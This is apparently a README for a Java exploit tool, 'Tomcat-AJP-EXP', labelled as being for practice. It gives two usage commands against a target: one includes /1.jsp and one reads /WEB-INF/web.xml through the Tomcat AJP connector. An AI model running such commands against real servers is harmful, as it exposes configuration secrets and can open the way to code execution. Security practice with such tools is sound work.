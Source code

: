# Tomcat-AJP-EXP
Java version of Tomcat-AJP-EXP, for practice

# Usage
包含: java -jar exp.jar -t target -i /1.jsp  
读取: java -jar exp.jar -t target -r /WEB-INF/web.xml
